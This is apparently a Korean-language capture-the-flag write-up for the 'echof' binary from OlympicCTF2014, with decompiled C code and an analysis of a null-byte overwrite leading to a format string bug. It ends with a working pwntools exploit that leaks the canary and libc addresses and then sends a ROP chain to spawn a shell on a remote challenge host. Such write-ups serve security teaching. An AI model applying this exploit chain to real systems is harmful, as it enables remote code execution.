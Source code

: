 ```yaml
---
layout: post
title: Writeup - echof (from OlympicCTF2014)
---
```

# echof

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int *result; // eax
  int *v4; // eax
  signed int i; // [esp+30h] [ebp-110h]
  size_t v6; // [esp+34h] [ebp-10Ch]
  int *mm; // [esp+38h] [ebp-108h]
  char buf; // [esp+3Ch] [ebp-104h]
  unsigned int v9; // [esp+13Ch] [ebp-4h]

  v9 = __readgsdword(0x14u);
  puts("pw?");
  fflush(stdout);
  read(0, &buf, 8u);
  result = (int *)memcmp(&buf, "letmein\n", 8u);
  if ( !result )
  {
    for ( i = 0; i <= 15; ++i )
    {
      puts("msg?");
      fflush(stdout);
      bzero(&buf, 0x100u);
      read(0, &buf, 0x80u);
      v6 = strlen(&buf);
      if ( strchr(&buf, 'n') )
        return puts("i hate this symbol!");
      mm = (int *)mmap(0x11111000, 0x1000, 3, 50, -1, 0);
      if ( mm == (int *)-1 || !mm )
      {
        perror("mmap");
        exit(-1);
      }
      v4 = mm + 33;
      *v4 = 'ruoY';
      v4[1] = 'sem ';
      v4[2] = 'egas';
      v4[3] = 'd%( ';
      v4[4] = 'tyb ';
      v4[5] = ':)se';
      v4[6] = '\ns% ';
      *((_BYTE *)v4 + 28) = 0;
      mm[32] = (int)(mm + 33);
      strncpy((char *)mm, &buf, 0x80u);
      *((_BYTE *)mm + v6) = 0;
      sprintf(&buf, (const char *)mm[32], v6, mm);
      puts(&buf);
      fflush(stdout);
      result = (int *)munmap(mm, 0x1000u);
    }
  }
  return (int)result;
}
```
## 관찰
NX, ASLR, PIE, stack canary, full RELRO가 모두 걸려있는 바이너리이다.

buf를 0x80 바이트로 꽉꽉 채워 `mm[32]`의 least significant byte를 0으로 덮어씌우면 원래 `mm[33]`을 가리키던 주소가 `mm[0]`로 바뀌어 마음대로 FSB를 할 수 있게 된다.

중요한 점은 모든 payload가 0x00이 포함되지 않은 128 byte string이 되도록 만드

Full RELRO가 적용되어 있으므로 got overwrite가 불가능하고 ROP로 문제를 해결해야 한다. ROP를 하기 위해서는
1.  libc system 함수와 /bin/sh string의 위치
2.  stack canary 값
을 알아야 한다.

1을 얻기 위해서는 FSB를 통해 got의 값을 아무거나 읽으면 된다. 하지만 PIE가 적용되어 있어 got의 위치가 매번 바뀐다. 이는 return address를 선제적으로 알아내  code 영역이 할당된 위치를 구함으로서 해결할 수 있다.

2는 stack canary의 위치를 알고 있으므로 FSB로 쉽게 구할 수 있다. 따라서 우리가 알아낸 정보들을 바탕으로 침착하게 ROP를 하면 shell을 딸 수 있다!


## 풀이
```python
from pwn import * 

#p = process("./echof")
p = remote("remote.goatskin.kr", 49281)
context.log_level = "debug"

# Step 1: leak code offset &
payload1 = "%80$x|%78$x|"
payload1 += (128 - len(payload1))*"A"

p.send("letmein\n")
p.send(payload1)
p.recvuntil("msg?\n")
p_ret_raw = p.recvuntil("|")[:-1]
canary_raw = p.recvuntil("|")[:-1]
p_ret = int(p_ret_raw, 16)
canary = int(canary_raw, 16)
base_code = p_ret - 0x840

log.info("canary: " + hex(canary))

# Step 2: read got w/ FSB
offset_got_lsm = 0x1FD8
payload2 = p32(base_code + offset_got_lsm) + "%14$s|"
payload2 += (128 - len(payload2))*"A"
p.send(payload2)
p.recvuntil("msg?\n")
p_lsm_raw = p.recvuntil("|")[4:8]
p_lsm = u32(p_lsm_raw)

p_system = p_lsm + 0x22c70
p_sh = p_lsm + 0x147133
log.info("p_lsm: " + hex(p_lsm))

# Step 3: rop

payload3 = "%256c" + "%78$c" + p32(canary)[1:]
payload3 += p32(p_system)*5 + p32(p_sh)
payload3 += (128 - len(payload3))*"A"
p.send(payload3)

context.log_level = "info"
p.interactive()
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTI5NTk0NCwtNDAzNjQ3MTIxLC0xNDA5OT
QyNDE2LC0yMTI4MDMyMjMyXX0=
-->